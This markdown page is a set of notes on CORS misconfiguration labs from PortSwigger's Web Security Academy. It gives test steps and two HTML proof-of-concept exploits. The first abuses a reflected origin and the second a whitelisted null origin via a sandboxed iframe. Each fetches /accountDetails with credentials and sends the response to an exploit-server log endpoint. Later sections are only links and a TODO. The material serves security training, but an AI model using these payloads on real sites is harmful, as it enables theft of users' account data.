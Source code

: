 # CORS
### Server-generated ACAO header from client-specified Origin header
#### Test
- Observe that the origin is reflected in the Access-Control-Allow-Origin header. 
#### POC
```html
<script>
var req = new XMLHttpRequest;
req.onload = reqListener;
req.open('get','https://ac131f9e1f2ffb79807d38fa00110007.web-security-academy.net/accountDetails');
req.withCredentials = true;
req.send();

function reqListener(){
    location = "/log?key=" + this.responseText;
}
</script>
```

***

### Whitelisted null origin value
#### Test
-   Send the request to Burp Repeater, and resubmit it with the added header `Origin: null`
-   Observe that the "null" origin is reflected in the `Access-Control-Allow-Origin` header.
#### POC
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
   var req = new XMLHttpRequest ();
   req.onload = reqListener;
   req.open('get','https://ac4e1fba1fe3b48280393d1700d700b8.web-security-academy.net/accountDetails',true);
   req.withCredentials = true;
   req.send();

   function reqListener() {
       location='https://acb11ff01f81b44780bd3ddc012a00a3.web-security-academy.net/log?key='+encodeURIComponent(this.responseText);
   };
</script>"></iframe> 
```

***

### [Exploiting XSS](https://portswigger.net/web-security/cross-site-scripting/exploiting) via CORS trust relationships

***

### [Breaking TLS with poorly configured CORS](https://portswigger.net/web-security/cors)

***

### CORS vulnerability with trusted insecure protocols
#### TODO


***
### 

	